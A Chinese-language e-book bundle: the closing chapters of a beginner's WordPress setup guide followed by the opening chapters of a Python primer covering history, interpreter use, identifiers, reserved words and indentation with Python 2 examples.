如果你选择 WordPress.org，你可以选择从 Bluehost（WordPress 官方推荐）购买主机，每年花费 47.4 美元，而且已经包含一个免费域名。如果你选择其他主机公司，你可能需要支付同样的价格，但无法获得域名。你可以仅花 10 美元从 NameCheap 或 GoDaddy 获得一个域名。每年总共 57.4 美元，能让你获得完全控制权。

***点击这里获取使用 Bluehost 设置 WordPress 网站的分步说明。***

你可能有点担心其中一个是否比另一个更容易使用；别担心，它们的界面相似。使用 WordPress.org 是理想的，这样你可以完全控制你的网站。但尽管如此，你需要选择适合你偏好和需求的 WordPress 平台。

选择平台后，下一步是选择你的域名和主机。请注意，你的域名是你的网址，用户需要在搜索栏中输入它才能访问你的页面。然后，你需要选择一个网站托管服务，以便其他互联网用户可以访问你的网站。

在托管提供商注册后，你可以使用 SimpleScripts 安装 WordPress，特别是如果你选择了 Bluehost。

### 第一周 第二天 - 仪表盘基础

安装 WordPress 后，你可以开始构建你的自定义网站或博客。但在发布任何内容之前，最好先熟悉仪表盘基础。仪表盘位于屏幕左侧，登录 wp-admin 账户后你很容易看到。大多数用户将其称为网站的后端。

通过仪表盘的首页，你可以轻松访问网站内容，并查看 WordPress 平台的其他区域。仪表盘将信息显示在称为“小部件”的独立块中。默认的 WordPress 小部件包括：“欢迎”、“概览”、“快速草稿”、“活动”和“WordPress 新闻”。

“欢迎”小部件显示了创建新网站时可以执行的主要任务的链接。

“概览”小部件简要显示网站上的页面、文章和评论数量。每种内容类型都以链接形式显示，一旦点击，你可以被引导到特定区域，从而轻松管理内容。

“快速草稿”小部件允许你轻松撰写新的文本内容。你可以快速编写标题、添加媒体、输入内容、插入标签、保存草稿，或者直接发布。

“活动”小部件显示最近的评论、已发布的文章和计划发布的文章。

“WordPress 新闻”小部件呈现来自 WordPress 官方博客的最新新闻、文章和公告。

你可以通过将鼠标光标悬停在标题栏上来展开、折叠和重新排列小部件。如果鼠标变成四向箭头图标，你可以按住鼠标左键并将小部件拖到你想要移动到的区域。这被称为拖放功能。

你还可以通过插件或特殊程序代码添加新小部件。

### 第一周 第三天 - 管理工具栏

管理工具栏位于屏幕最顶部。WordPress 标志位于管理工具栏的最左侧。将鼠标悬停在标志上，你将看到指向 WordPress 特定信息的链接。这些链接可以在你需要访问支持论坛或提供反馈时提供帮助。

你的网站名称位于标志的右侧。你可以将鼠标悬停在这里，然后会看到一个子菜单，用于访问网站的前端。下一个区域提供了评论的快速浏览。

在左侧，你可以找到“+ 新建”的链接。一旦你将鼠标悬停在此链接上，会出现一个子菜单，将你重定向到用户、页面、媒体和文章的“添加新”屏幕。你也可以使用仪表盘左侧区域的导航来做这些事情，但如果你想快速完成操作，这些链接可以帮助你很多。

你还会在右侧区域看到显示“你好，你的名字”的文字。你可以将鼠标悬停在此区域以访问子菜单，该子菜单可用于退出站点或编辑个人资料。

### 管理工具栏的前端视图

如果你当前已登录到 WordPress 网站，管理工具栏会显示在网站的前端。尝试将鼠标悬停在网站名称上，点击“访问网站”；它会将你重定向到网站的前端。

一旦你将鼠标悬停在网站标题区域，你可以看到仪表盘的链接，这些链接会带你回到仪表盘首页，以及带你到页眉、背景、菜单、小部件和主题的链接。请注意，这些部分也可以在仪表盘左侧的导航窗格中找到。

### 如何关闭管理工具栏视图

管理工具栏通常很有用，但有时你可能想关闭它，以便查看网站前端的完整视图。请注意，管理工具栏只会在你以管理员身份登录网站时出现。

如果你想关闭它，只需点击**编辑我的个人资料**功能。屏幕上会出现一个复选框，旁边文字为：**查看网站时显示工具栏**。你只需要取消选中该框，然后滚动到底部，点击**更新**。


Click Save to save the changes.

### 第 1 周第 4 天和第 5 天 – 探索 WordPress 设置

在仪表盘上，找到 **设置** 菜单并将鼠标悬停在其上方。子菜单会出现，您可以在其中访问多个 WordPress 设置选项：常规、阅读、写作、媒体、讨论和固定链接。

#### 常规设置

为了探索，您可以先前往常规设置。在此选项中您首先看到的元素是站点标题和标语。请确保这些文本与您的网站相符，因为您的站点标题将用于 SEO。默认情况下，WordPress 将标语显示为“just another WordPress site”。您需要更改此标语以描述您的网站，因为它对您网站的 SEO 很重要。

接下来是 **WordPress 地址 (URL)**。对于网站地址 URL，如果您希望网站首页与安装 WP 的目录分离，可以在此输入 URL 地址。此时最好不要修改这些 URL。

然后，您还会看到 **电子邮件地址**，您将用于管理目的，包括新用户通知。还有 **会员** 设置。WordPress 允许在线用户注册您的网站。如果会员资格对您的网站至关重要，这是一个有用的功能。

同时，**新用户默认角色** 设置为订阅者。现在不要触碰此设置，因为您可能会意外地向注册网站的任何人授予管理员权限。

然后是 **时区**。浏览列表，选择与您首选日期格式相同的时区内的城市。请注意，此格式将出现在您的文章中。更新这些设置后，不要忘记 **保存更改**。

#### 阅读设置

**阅读设置** 显示会影响内容显示的设置。在这里您可以调整网站首页的显示方式——静态页面或最新的博客文章。建立多个页面后，您可以在此设置中列出这些页面，以便它们出现在前端。

下一个设置部分将允许您控制 RSS Feed 中的内容显示，包括要显示的最大文章数以及是否只显示摘要或全文。**搜索引擎可见性** 是最后一部分。如果您不希望搜索引擎索引您的网站，应勾选 **阻止搜索引擎索引此网站**。如果您仍处于开发阶段，这是一个很好的设置，此时不建议索引。

记得 **保存更改**。

#### 写作设置

写作设置会影响您网站的写作和发布。顶部的部分允许您控制仪表盘内的编辑器，而其他部分则允许您控制外部发布方法。

第一部分显示默认分类格式和文章格式的选项。您还会看到 **Press This** 书签小工具部分，它允许您轻松地在博客上发布您在互联网上发现的有趣事物。如果您想使用它，首先需要将屏幕上的链接拖到浏览器的书签栏。如果您在其他网站上，只需点击书签小工具即可打开弹出窗口，通过您的博客分享内容。

同时，**通过电子邮件发布** 设置将允许您通过电子邮件向网站发送文章内容。要使用此设置，您应使用 POP3 访问设置一个秘密电子邮件帐户。最后一部分可用于更新服务。一旦发布新文章，WordPress 将立即通知您更新。务必 **保存更改**。

#### 媒体设置

媒体设置页面允许您设置要添加到文章中的图片的最大尺寸。如果您希望图片保持相同尺寸，或想为图片尺寸设置默认设置，这些设置将为您节省时间。

**上传文件** 选项允许您选择是否按月份或年份组织上传的文件。务必 **保存更改**。

#### 讨论设置

**讨论设置** 允许您管理文章和页面的评论和链接。

第一部分是 **默认文章设置**。第一个设置允许您管理您对其他博客的链接。第二个设置允许您管理 trackbacks 和 pingbacks 或指向您网站的链接。最后，第三个设置允许您的网站访客在新文章上发表评论。如果您不希望访客对文章发表评论，可以取消选中此框。

**其他评论设置** 允许您选择访客发表评论的准则以及如何管理他们的评论。

对于 **在以下情况下通过电子邮件通知我** 部分，您可以选择在有人发表评论或评论已被版主处理时通过电子邮件收到通知。

**评论出现前** 部分将允许您管理已发布的评论。通过此设置，您可以选择管理员是否应先批准评论，或评论是否可以自动发布。

在 **评论审核** 部分，您可以根据链接数量更改评论的管理方式。在框内，您可以包含 IP 地址、电子邮件、姓名、词语和 URL 以筛选需要审核的评论。此功能与评论黑名单一起可以帮助您抵御不当和垃圾评论。

还有 **头像** 设置。您可以启用在您网站上发表评论的用户头像，为尚未拥有自己头像的用户选择默认头像，或根据其评分筛选他们的评论。

再次，务必 **保存更改**。

#### 固定链接设置

固定链接指的是每个页面和博客文章（包括标签和分类归档）的永久 URL。一般来说，固定链接是可用于链接到您内容的网页地址。它得名于 permanent（永久）和 link（链接）的组合。因此是 permalink。

WordPress 中的固定链接设置允许您管理固定链接的默认结构。您可以从常用设置中选择，也可以构建自定义 URL。默认情况下，WordPress 使用带有问号和数字的 URL。您可能希望在此更改固定链接以提高其前向兼容性、可用性和美观性。

### 第 1 周第 6 天 – 创建 WordPress 文章

要创建您的第一篇文章，请在仪表盘左侧找到 **文章** 菜单。您可以点击展开它以访问子菜单，或将鼠标悬停在文章链接上。

在管理栏中的 + **新建** 链接中，您也可以找到 **添加新文章** 页面。只需点击 **新建** 链接即可访问添加新文章页面，以便开始创建您的第一篇 WordPress 文章。

您可以在第一个框中输入文章标题。

下方是 **文章编辑器或文章格式化部分**，您将在此处输入或粘贴文章内容。屏幕右侧有两个标签页，显示两种文章编辑模式：**文本** 和 **可视化**。

**文本** 标签页将让您访问文章编辑器的纯文本 HTML 版本。您可以使用此模式编辑文章的 HTML 代码。如果您不熟悉 HTML，建议使用可视化模式。

**可视化** 标签页非常适合熟悉所见即所得（WYSIWYG）概念的开发者。它带有格式工具栏，提供多种格式化文章的选项。如果您使用过 Microsoft Word，其中许多图标看起来会很熟悉。

**发布** 框位于屏幕右侧列的顶部。您可以将文章保存为草稿。**预览** 按钮将允许您预览文章发布后的实际显示效果。状态将告知您文章当前是草稿、已保存、已发布，还是如果您已安排发布则为待审核。

随后的链接允许您查看文章的可见性或网站访客将看到的内容。发布行显示文章将立即发布还是在未来某个日期发布。下一部分用于分配给文章的 **标签** 和 **分类**。稍后保存本课。

如果您想更改编辑器的屏幕选项，可以点击右上角的屏幕选项标签。这将展开链接，您将看到将在屏幕文章编辑器中显示的选项。


在文章编辑器中，你只需拖拽或放置这些框的排列方式，即可更改它们在页面上的显示方式。

如果你需要添加新文章的帮助，只需点击右上角的帮助标签即可。从这里，你可以轻松查阅插入媒体、使用编辑器、添加文章标题的有用提示，以及自定义文章显示的建议。

### 第 1 周 第 7 天 – 添加链接和图片

链接对于内容的 SEO 很重要，而图片则非常适合提升文章的吸引力和可读性。WordPress 使将这两个元素添加到你的网站变得非常容易。

### 添加链接

在页面编辑器或 WordPress 文章中，选择并突出显示你想要添加链接的文本。然后，点击工具栏中的超链接按钮。这将显示一个框，你可以在其中输入超链接的具体 URL 以及悬停在链接上时显示的标题。勾选此复选框还可以让你在新标签页中打开链接。

如果你更喜欢链接到网站上已有的内容，只需点击展开此部分即可。这样你可以看到一个搜索栏来搜索你的网站，以及现有页面或文章的列表。

从列表中选择其中一项也会更改超链接。如果你的超链接已准备就绪，只需点击 **Add Link** 按钮即可。你选择的文本现在将带有链接。如果你想移除链接，再次选择文本并选择取消链接按钮。你会看到链接已被移除，文本恢复为正常显示。

### 添加图片

选择在文章中插入图片的最佳位置。在文章编辑器工具栏的上方，你会看到 **Add Media** 按钮。点击此按钮以显示 **Insert Media** 框。

WordPress 存储一个媒体库来保存所有媒体文件，如视频和图片。在此框中，你可以选择上传新文件或使用媒体库中已有的文件。如果你想上传图片，点击 **Select files** 按钮并找到你想要使用的图片。

图片上传后，你会注意到它已添加到媒体库中。在框的右侧区域，你会看到该页面的附件详情。在此部分，你可以看到 **Description**、**Alt text**、**Caption** 和 **Title**。你还可以选择图片的 **alignment**，例如 **right**、**left** 或 **center**。

确保图片已被选中。点击 **Insert into Post** 按钮。现在你可以看到图片已插入到你的文章中。

一旦你点击图片，图片上方的区域会出现两个框。第一个是图片图标。点击此图标后，会出现另一个框，你可以在其中编辑所有图片详情。在此提示中，你可以根据百分比修改图片大小，或更改链接 URL、标题、替代文本和标题。你还可以选择图片链接或链接到图片的实际文件。

在选择高级设置标签时，你会看到图片当前托管的链接、为图片添加内边距的属性和样式、CSS 类，以及图片的实际高度和宽度（以像素为单位）。

接下来，返回图片。右上角的下一个图标可让你从文章中删除图片。点击 **Add Media button** 时，你会注意到相同的插入媒体框。在左侧，你会看到设置图库和选择特色图片的选项。如果媒体库中有足够多的图片，你可以将整个图片图库添加到文章中。

特色图片被某些主题使用。如果你的所选主题支持特色图片，请继续选择图片并返回文章编辑器。点击预览按钮并检查图片是否已插入。

## 第 3 章 – 第二周

### 第 2 周 第 1 天 – 分类与标签

你可以将文章组织到不同的分类中，例如主题或学科领域。例如，如果你正在撰写一篇文章，请考虑文章的更广泛主题。如果你计划将来撰写更多关于该主题的文章，将这些文章组织在一起是理想的做法。

#### 添加新分类

如果你尚未添加分类，点击显示 + **Add new category** 的链接。通过点击 **Add new category** 插入新分类。你会注意到新分类已添加到分类列表中。要将分类添加到文章中，点击分类旁边的复选框。

管理文章分类的另一种方法是导航至位于仪表盘菜单中的链接 **Posts > Categories**。如果点击分类链接，你可以访问分类页面。从这里，你可以查看右侧的所有分类，也可以在此添加新条目。

#### 分类描述

描述区域允许你添加有关链接到该分类的文章的更多信息。某些 WordPress 主题会显示此信息。

#### 分类层级

与标签不同，分类可以嵌套成层级结构。例如，你可能有一个新闻分类，其下可包含世界新闻和体育新闻等子分类。

#### 分类别名

分类别名是分类的链接友好版本。通常为小写形式，仅包含数字、连字符和字母。

#### 分类和标签有什么区别

只要把你的网站想象成一本书。分类类似于目录，而标签则像索引部分。

### 第 2 周 第 2 天 – 创建 WordPress 页面

创建新页面的第一步是在仪表盘中找到 **Pages menu**。只需点击 **Add new** 选项即可。

你会注意到页面编辑器与文章编辑器具有相同的界面。唯一的区别在于屏幕右侧的几个框。你可以添加页面标题，例如“联系我们”。请记住，如果你已创建漂亮的固定链接，页面标题也将用作 URL 别名。

在为页面添加内容后，你可以在页面编辑器中发布页面，这与撰写文章时类似。如果准备发布，你可以立即发布或安排在未来发布。

**Page Attributes** 部分包含新页面的父页面和模板。在父页面部分，你可以根据层级组织页面。例如，你可以创建此新页面并在其下方添加页面。请注意，嵌套页面的层级数量没有限制。

**Template** 部分允许你为新页面包含一个模板。如果你的主题允许自定义页面模板，则可以实现此功能。

**Order** 界面让你按数字顺序组织页面。页面通常按字母顺序组织，但你可以通过在此框中提供数字来选择自己的排列方式。

先预览页面，如果一切正常再点击发布。

### 第 2 周 第 3 天 – 应用 WordPress 模板

有些 WordPress 主题具有模板，可更改网站前端页面的格式。通过页面模板，主题可以为页面外观和特定元素放置位置提供一定的灵活性。

添加页面模板的第一步是在仪表盘中浏览 **Pages** 菜单并找到编辑或添加新页面的链接。找到页面属性区域，在那里你可以看到可用的模板下拉列表。根据 WordPress 主题的不同，你可以在下拉菜单中看到某些页面模板选项。

为了查看模板将如何改变页面的外观，选择一个模板并预览它，以检查它是否适合该页面。

在最终选择要使用的模板后，你可以点击发布。

### 第 2 周 第 4 天 – 安装插件

插件允许你为 WordPress 网站添加更多功能。安装插件很容易。

第一步是在登录网站仪表盘后找到并展开 **Plugins** 菜单。查找 **Installed Plugins** 页面，在那里可以看到已安装在网站上的插件列表。某些插件在安装 WordPress 时会自动安装，例如 JetPack 和 Akismet。

要添加新插件，只需点击 **Add New** 选项即可。从此页面，你可以选择从 WP 插件目录浏览要安装的插件。你还可以根据插件的发布日期、受欢迎程度或你标记为收藏的插件来筛选搜索结果。

开始上传插件，请按以下步骤操作：**Choose file > locate your plugin zip file > Install Now > Activate.**

仪表盘中插件下的最后一个菜单部分是 **Editor**，你可以通过修改单独的 PHP 文件来更改插件的某些元素。但请记住，如果你做了修改，插件更新将覆盖你的更改。如果你不懂 PHP 代码，请不要更改插件的 PHP。

### 第 2 周 第 5 天 – 管理 WordPress 主题

管理 WordPress 主题的第一步是在仪表盘中浏览 **Appearance** 菜单。选择 **Manage Themes** 页面。

在顶部，你可以看到 **Active theme** 以及 **Customize** 选项。点击此链接后，你可以看到一个预览窗口，允许你对标语和网站标题进行一些更改。


如果你返回 **管理主题** 选项卡，就可以在启用主题下查看可用主题列表。这些主题已经安装在你的 WP 站点上。

如果你选择任意主题下方的 **实时预览** 链接，就能预览网站在使用该主题后的外观。在预览中，你可以浏览不同页面，查看该主题如何处理模板、归档和文章。在预览窗口左侧，你可以编辑该主题的设置。这些设置会根据主题包含的功能类型而有所不同。

请务必点击左上角的 **保存并启用** 按钮来接受新主题。

### 第2周第6天 – 创建自定义菜单

你可以创建自定义菜单，作为网站的导航菜单。菜单功能允许你构建自己的自定义菜单，以替代所选主题的默认菜单。

有些自定义菜单包含链接、分类、页面和其他类型的内容。你还可以为菜单项添加自定义导航标签，并添加其他属性。

一般来说，你想设置多少个菜单都没有限制。因此，如果你的主题包含多个菜单位置，你可以选择将哪个自定义菜单关联到每个位置。你还可以将自定义菜单与自定义菜单小工具一起使用。

#### 如何在 WP 网站中创建自定义菜单

第一步是展开仪表盘左侧的 **外观** 菜单。点击外观菜单中的“菜单”链接，这会激活菜单编辑器页面。输入你想要的菜单名称，然后点击“创建菜单”。接着，你可以在左侧的框中添加菜单项，例如链接、分类和页面。

如果你想更改此页面上显示的菜单选项，只需展开 **屏幕选项** 选项卡。然后，添加其他菜单选项，例如 CSS 类、格式、标签和文章。

整理好菜单项后，请务必 **保存菜单**。

### 第2周第7天 – 管理评论

在基于 WordPress 构建的站点中管理评论，与处理页面和文章的方式类似。

在仪表盘中，找到 **评论** 页面。你可以用与其他 WordPress 屏幕类似的方式自定义此屏幕。黄色指示标记表示该评论需要审核。你可以通过 **批量操作** 回复评论，或将鼠标悬停在操作链接上回复。

在 **作者列** 中，除了作者姓名、博客 URL、电子邮件地址外，还会显示评论者的 IP 地址。如果你点击此链接，就会显示来自该特定地址的所有评论。

在评论列中，每条评论都包含特定信息：*提交于* 之后是评论发布到网站的时间和日期。点击时间和日期链接会将你重定向到网站上对应的那条评论。当你将鼠标悬停在评论上时，就会看到可对该评论执行的操作：批准、回复、编辑、移入回收站或标记为垃圾评论。

该列中有三个元素：**回应对象**。文本指的是该评论所关联文章的标题，以及指向该特定条目文章编辑器的链接。

## 结论

再次感谢你下载本书！

希望本书能帮助你学习 WordPress 基础知识，而到目前为止，你的网站或博客已经启动并运行。

下一步是学习高级 WordPress 技术，例如 SEO、安全性，以及使用 Java 和 Ajax 增强你的网站或博客。

# Python 学院

## 轻松由内而外学习 Python 的方法

## 目录

- 引言
- 第1章：Python 简介
- 第2章：语法
- 第3章：数据类型
- 第4章：运算符
- 结论
- “JavaScript 学院”预览

## 赠品书籍：

点击以下任意链接，前往免费的赠品书籍！

- 赠品书：Scrum 训练营
- 赠品书：Python 训练营
- 赠品书：Java 训练营
- 赠品书：JavaScript 训练营
- 赠品书：C# 训练营
- 赠品书：黑客技术训练营
- 赠品书：Excel 训练营
- 赠品书：SEO 训练营
- 赠品书：SQL 训练营
- 赠品书：Python 学院
- 赠品书：JavaScript 学院
- 赠品书：Windows 10 学院
- 赠品书：被动收入任务
- [赠品书：14 天 Paleo 饮食计划](#)
- [赠品书：14 天生酮饮食计划](#)
- [赠品书：14 天地中海饮食计划](#)
- [赠品书：14 天全食物饮食计划](#)
- [赠品书：14 天 DASH 饮食计划](#)
- [赠品书：14 天纯素饮食计划](#)
- [赠品书：14 天冰沙排毒计划](#)
- [赠品书：14 天茶饮排毒计划](#)
- [赠品书：14 天快手晚餐计划](#)
- [赠品书：14 天精油计划](#)
- [赠品书：生酮饮食挑战](#)
- [赠品书：纯素饮食挑战](#)
- [赠品书：全食物饮食挑战](#)
- [赠品书：10 天绿色冰沙排毒计划](#)
- [赠品书：茶饮排毒挑战](#)
- [赠品书：精油挑战](#)
- 赠品书：慢炖锅食谱挑战
- 赠品书：Paleo 饮食挑战

我要感谢你并祝贺你下载了《*两周学会 Python 编程基础*》这本书。

本书包含经过验证的步骤和策略，介绍如何用 Python 编写和运行程序。书中还有示例代码和程序，可用作指南。

本书还介绍了这门编程语言，包括 Python 的简史和基础知识。书中还详细解释了 Python 中的各项功能。

再次感谢你下载本书。希望你喜欢！

本文档旨在就所涵盖的主题和问题提供准确可靠的信息。本书的销售基于这样一种理念：出版商无需提供会计、官方许可或其他有资质服务。如需法律或专业建议，应咨询该领域经验丰富的专业人士。

- 摘自美国律师协会一个委员会与出版商和协会一个委员会共同接受并批准的原则声明。

以电子方式或印刷形式复制、翻印或传播本文档的任何部分均不合法。严禁录制本出版物，未经出版商书面许可，不得以任何方式存储本文档。保留所有权利。

本文提供的信息据称真实且一致；对于因疏忽或其他原因，使用或滥用其中包含的任何政策、流程或说明而产生的任何责任，均由接收方读者独自承担全部责任。在任何情况下，出版商均不会因本文信息直接或间接导致的任何赔偿、损害或金钱损失而承担法律责任或受到指责。

未由出版商持有的所有版权归各自作者所有。

本文信息仅出于提供信息的目的而提供，并因此具有普遍适用性。信息的呈现不构成合同或任何类型的保证担保。

所使用的商标均未经同意，商标的发布也未经商标所有者许可或支持。本书中的所有商标和品牌仅用于说明目的，归其所有者所有，与本文件无关。

## 第 1 章：Python 简介

如果你正在寻找一种以代码可读性为主要焦点的通用高级编程语言，应该考虑 Python。它的语法允许你用比 C、C++ 和 Java 等其他编程语言更少的代码行来表达概念。它支持广泛的编程范式，因而涵盖命令式、函数式和面向对象编程。此外，它还具有全面的标准库、动态类型系统和自动内存管理。

有许多解释器可供你安装在不同操作系统上；因此，你可以在各种系统上执行 Python。你甚至可以使用第三方应用程序。如果你不想安装解释器，可以将代码打包成独立的可执行程序，从而有效地将基于 Python 的软件分发到不同环境。

### Python 编程语言简史

Python 由 Guido van Rossum 于 20 世纪 80 年代末开发。它最初只是一个圣诞项目。Van Rossum 想要一个供 C 和 UNIX 黑客使用的脚本语言解释器。他的小项目最终升级为 Python 2.0，并于 2000 年 10 月发布。这个新版本具有完整的垃圾回收器和 Unicode 支持。Python 3.0（也称为 Python 3000 和 py3k）于 2008 年 12 月发布，其特性被向后移植到 2.6 和 2.7 版本。

### 为什么应该使用 Python？

编程语言的存在有其原因。例如，Python 的开发是为了让

程序员创建高效且富有成效的代码。其主要目标是帮助初学者轻松快速地学习一门编程语言。由于学习时间更少，你可以创建更有用的应用程序，而这些应用程序使用更晦涩复杂的编程语言则难以实现。

使用 Python 编程应用程序时，你也能受益于更短的开发时间。如前所述，Python 的代码行数比 C、C++ 和 Java 更少。它的代码实际上短五到十倍；因此更高效、更不复杂。你可以将更少的时间花在开发应用程序上，而将更多时间用于调整和改进它们。

在检查错误和 bug 方面，所使用的编程语言易于阅读和理解至关重要。如果编程语言过于复杂，你可能在编码和检查程序时会遇到困难。使用 Python，代码更容易阅读和编写；因此，你可以轻松解读代码并做出必要的更改。

此外，Python 还有许多其他用途。它非常适合用于基于浏览器的脚本应用程序、创建出色的用户界面和粗略的应用程序示例、与数据库交互、处理 XML 以及设计数学、工程和科学应用程序。

### Python 与 C#、Java 和 Perl 的比较

你可能会发现比较编程语言是主观的任务。通常，它们的差异只是个人偏好的问题。尽管如此，有时此类比较也有科学数据支持。无论如何，你必须记住并不存在包罗万象的编程语言。作为程序员，你只需要找到最适合你的目标或需求的那一种。

#### C#

如果你有 Java 背景，你可能会注意到 C# 和 Java 非常相似。话虽如此，与 Java 相比，C# 仍有其自身的优缺点。微软声称开发 C# 的主要目标是制作 C 和 C++ 的改进版本。然而，与 C# 相比，Python 具有更好的科学和工程应用以及更好的多平台支持。在使用 C、C++ 和 Java 方面，它更具可扩展性。学习和理解起来更容易，并且允许使用各种计算机环境。它也有更简洁的代码。

#### Java

程序员将 Java 视为一站式编程语言。多年以来，他们一直在寻找一种可以在任何地方运行和编写的东西，而他们找到了 Java，它可以在不同的平台和计算机环境中表现良好。话虽如此，Python 也是一种一站式编程语言。它与 Java 非常相似，只是代码更简洁，学习和理解起来更容易。开发速度快得多，并且具有改进的数据框或变量，可以存储在运行应用程序时有用的不同数据类型。

#### PERL

PERL 的全称是 Practical Extraction and Report Language（实用提取和报告语言）。它是一种适合从另一个数据库获取和处理数据的编程语言。相比之下，Python 比 PERL 更好，因为它更易于阅读、实现、学习和理解。它具有更好的 Java 集成和数据保护。它也具有更少的平台特定偏见。

### 为什么 Python 适合初学者？

如果你刚开始编程，你可能想考虑 Python。它非常适合初学者，因为它具有一致且简单的语法，以及庞大的标准库，可让你完成多个项目。涉及的作业不仅限于通常的四功能计算器和支票簿平衡程序。

当你习惯用 Python 编写程序时，你会意识到制作逼真的应用程序其实很容易。交互式解释器也允许你测试语言特性。在 Python 中，你可以专注于基本的编程技能，例如程序分解和数据类型设计，以及基本概念，包括过程和循环。

由于 Python 涉及多个库和系统调用的使用，你可以开发具有易于编程界面的应用程序。你也可以完成应用程序编程接口（API）所需的任务。

如果你从未使用过任何其他编程语言，也不用担心。即使没有任何编程知识或经验的人也能轻松掌握 Python 编程语言的基础知识。

至于安装，Python 易于安装。大多数 UNIX 和 Linux 发行版实际上已将其包含在软件包中。如果你从惠普（HP）购买 Windows 电脑，你可以直接使用 Python，因为它已随系统预装。

为了让你更轻松，你应该学习如何使用文本编辑器以及集成开发环境（IDEs）。阅读包含示例代码和程序的编程书籍也会有所帮助。

关于版权，Python 的开发者允许程序员对源代码随意处置，只要他们不忘记包含版权信息即可。版权规则并不严格。你甚至可以出售二进制和源代码形式的副本，以及涉及 Python 使用的产品。然而，如果你想使用标志，请确保获得许可。

Python 非常稳定。事实上，它足够稳定可供常规使用。你可以预计每六到十八个月会有一个新版本。开发者会发布错误修复版本，以确保新版本比前一版本更好。

如果你想执行静态分析或搜索错误，可以使用 Pylint 或 PyChecker。前者是一种工具，用于检查模块是否遵守编码标准，并允许自定义插件。后者是一种静态分析工具，用于在源代码中查找错误。

那么现在你已经了解了编程语言的基础知识，你可能仍会好奇 Python 这个名字是如何得来的。Guido van Rossum 喜欢蟒蛇吗？其实他喜欢的是名为 Monty Python’s Flying Circus 的电视节目，而不是爬行动物。

在 Python 开发期间，他正在阅读该喜剧系列的剧本，并认为‘Python’将是一个合适的名称，因为它简短、独特且具有恰到好处的神秘感。事实上，在文档中引用该喜剧节目是允许的，而且实际上是被鼓励的。

## 第 2 章：语法

Python 具有简单直接的语法。它甚至鼓励程序员在不使用预制或样板代码的情况下编写程序。print 指令实际上是最简单的指令之一。它输出行并包含换行符。你可能会注意到，在编程语言的新主要版本中，print 指令是不同的。

Python 2.0 是更常见的版本，而 Python 3.0 支持最新功能且语义更正确。无论如何，在 2.0 版本中，print 语句不被视为函数；因此，你可以在代码中不包含括号的情况下调用它。另一方面，在 3.0 版本中，print 语句被视为函数；因此，如果你想调用它，就必须使用括号。

### 交互模式编程

你可以在不同的模式下执行程序。如果你在不传递脚本文件作为参数的情况下调用解释器，你会得到以下内容：

```
$ python
Python 2.4.3 ( #1, Nov 11 2010, 13:34:43 )
[GCC 4.1.2 20080704 ( Red Hat 4.1.2 – 48 )] on linux2
Type “help”, “copyright”, “credits” or “license” for more information.
>>>
```

当你看到此提示时，你可以输入所需文本然后按 Enter。在此示例中，我们将使用单词‘Monty Python and the Holy Grail’。

```
>>> print “Monty Python and the Holy Grail”;
```

请注意，如果你使用的是较新的编程语言版本，你需要在 print 语句中使用开头和结尾的括号，如下所示：

```
>>> print ( “Monty Python and the Holy Grail” ) ;
```

无论你使用哪个版本，如果运行上面显示的示例代码，你将得到以下输出：

```
Monty Python and the Holy Grail
```

### 脚本模式编程

如果你使用脚本参数调用解释器，脚本将开始执行并持续运行直到完成。完成后，解释器将不再处于活动状态。请考虑以下示例。示例程序写在脚本中，并具有 .py 扩展名：

```
print “Monty Python’s Flying Circus”;
```

如果你在 test.py 文件中输入上述源代码并作为以下方式运行

```
$ python test.py
```


你将得到以下输出：

```
Monty Python's Flying Circus
```

执行脚本的另一种方式是修改 .py 文件，例如：

```
#!/usr/bin/python

print "Monty Python's Flying Circus";
```

如果你这样运行它：

```
$ chmod +x test.py
$ ./test.py
```

你将得到以下输出：

```
Monty Python's Flying Circus
```

### 标识符

标识符基本上用于确定函数、变量、模块、类以及任何其他对象。它以一条下划线（ _ ）或一个字母开头。随后是数字、下划线、零或其他字母。作为程序员，你可以随意使用任何字母或数字。你可以使用大写和小写字母。

但是，标识符中不能使用标点符号和特殊字符，例如 @、$ 和 %。此外，Python 是一种区分大小写的编程语言。这意味着你在代码中使用大写和小写字母时必须小心。例如，*wendy*、*Wendy* 和 *WENDY* 都是同一个名字，但它们在 Python 中被视为三个不同的标识符。

### Python 中标识符的规则

在 Python 中编写程序时，你必须遵守若干规则：

- 类名必须始终以大写字符开头，而其余标识符必须以小写字符开头。
- 如果标识符仅以一个前导下划线开头，则它是私有的。
- 如果标识符以两个前导下划线开头，则它是强私有的。
- 如果标识符以两个尾随下划线结尾，则它是语言定义的特殊名称。

### 保留字

请注意，在 Python 中，某些单词不能用作常量、标识符名称或变量。所有关键字也使用小写字母书写。以下是该编程语言中保留字的表格：

| and | assert | break | class | continue |
|-----|--------|-------|-------|----------|
| def | del | elif | else | except |
| exec | finally | for | from | global |
| if | import | in | is | lambda |
| not | or | pass | print | raise |
| return | try | while | with | yield |

### 缩进与行

在 Python 中，类定义和函数没有用于指示代码块的花括号。同样，流程控制也不包含花括号。如果你想表示这样的代码块，就必须使用行缩进。你可以调整空格，但也要确保块中的所有语句都缩进。为了帮助你进一步理解，请考虑以下示例代码：

```
if True:
    print "Correct"
else:
    print "Incorrect"
```

```
if True
    print "Input"
    print "Correct"
else:
    print "Input"
    print "False"
```

运行第一个给出的示例会生成输出。然而，运行第二个示例会导致错误。为什么会发生这种情况？好吧，你必须记住，在 Python 中，块是通过将连续的行缩进相同数量的空格形成的。

缩进只是一种对语句进行分组的方式。程序员用它代替代码块的花括号。支持制表符和空格，但标准缩进要求标准代码具有相似数量的空格。通常使用四个空格。看看以下示例：

```python
w = 1
if w == 1 :
    # This shows an indentation with exactly four spaces
    print "w is 1."
```

### 缩进误区

围绕 Python 中的缩进存在某些误区。以下是其中一些：

#### 每个源代码中都必须有空白字符。

实际上，你不必在所有源代码中都使用空白字符。空白字符不一定重要，但缩进是重要的。如你所知，这是语句最左侧部分的空白字符。在其他任何地方，空白字符都没有那么重要，可以省略。你可以以任何方式使用它，甚至可以在程序中的任何位置插入任意空白字符或不包含任何内容的空行。

此外，确切的缩进量并不真正重要，但嵌套块的相对缩进量很重要。当你使用隐式或显式续行时，实际上不会识别缩进级别。例如，你可以将列表拆分到多行。缩进完全不重要。看看以下示例：

```
foo = [
        ' a string ',
        ' another string ',
        ' a short string '
]
print foo
```

如果你运行上面给出的代码，你将得到以下输出：

```
[ ' a string ', ' another string ', ' a short string ' ]
```

这是另一个示例：

```
bar = ' look at this example ' \
    ' of a long string ' \
        ' that is split ' \
    ' across multiple lines '
print bar
```

如果你运行上面给出的代码，你将得到以下输出：

look at this example of a long string that is split across multiple lines

#### 你的程序中应使用某种缩进风格。

